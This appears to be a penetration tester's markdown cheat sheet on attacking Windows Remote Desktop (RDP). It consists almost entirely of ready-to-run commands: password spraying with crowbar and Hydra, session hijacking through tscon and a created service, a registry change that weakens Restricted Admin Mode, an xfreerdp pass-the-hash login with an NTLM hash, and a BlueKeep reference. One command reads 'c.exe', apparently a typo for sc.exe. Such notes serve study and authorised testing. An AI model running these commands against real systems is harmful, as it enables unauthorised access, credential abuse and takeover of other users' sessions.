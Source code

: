 # Misconfigurations 

### Password guessing 
#### Using [crowbar](https://github.com/galkan/crowbar)
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### Hydra 
```shell-session
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Session Hijacking 

Need to have SYSTEM privilege and used [tscon.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```cmd
 tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Local admin privileges 
```cmd
query user
```

```cmd
c.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
```

```cmd
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

Caveats 
- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

## Latest Vulns
[Blue Keep CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
